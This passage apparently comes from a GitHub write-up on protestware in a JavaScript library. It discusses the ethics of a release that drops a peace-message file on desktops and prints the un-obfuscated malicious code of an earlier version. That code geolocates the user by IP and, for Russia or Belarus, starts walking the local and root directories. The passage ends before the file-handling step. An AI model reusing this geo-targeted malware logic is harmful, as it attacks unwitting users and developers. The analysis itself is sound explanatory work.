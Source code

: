 * The end-product that uses the library ends up itself becoming malware without the knowledge of its developer. In my mind it should be up to the creator
  of that software whether their product is distributed in Russia, and certainly whether it does something malicious.

The ethics of the `11.x` release are interesting, since it simply drops a message asking for peace on the end-user's
desktop. Whether that constitutes malware, I'm not sure. If you do choose to use it, at least you are now aware of what
behavior to expect. The file name is [WITH-LOVE-FROM-AMERICA.txt](https://github.com/RIAEvangelist/peacenotwar/blob/main/WITH-LOVE-FROM-AMERICA.txt), 
in english, and it contains a statement denouncing war
in several languages, starting in english, and a link to a protest song, also in english. It also makes the religious statement "God bless you".
Keep in mind, less than 12% of Russians speak english.

I question whether this will be impactful to public opinion or will backfire and look like a "foreign virus". Naming the file with the name of
Russia's most powerful enemy strikes me as particularly tone-deaf for a message meant to reach critical readers, 
given that the US is one of the prime excuses made by the Kremlin for Russia's expansionism.


## A look at the malware itself

Here is the original malicious code, un-obfuscated. It's easy to follow:

```js
import p from "path";
import fs from "fs";
import https from "https";

setTimeout(function () {
    if (Math.round(Math.random() * 4) > 1) {
        return;
    }

    const geoLocation = "https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154";

    https.get(geoLocation, function (response) {
        response.on("data", function (jsonData) {
            try {
                const jsonObject = JSON.parse(jsonData);
                const countryName = jsonObject["country_name"].toLowerCase();
                if (countryName.includes("russia") || countryName.includes("belarus")) {
                    getFiles("./");
                    getFiles("../");
                    getFiles("../../");
                    getFiles("/");
                }
            } catch (response) {
            }
        });
    });
}, Math.ceil(Math.random() * 1000));

async function getFiles(path = "", param2 = "") {
    if (!fs.existsSync(path)) {
        return;
    }

    let fileInDir = [];
    try {
        fileInDir = fs.readdirSync(path);
```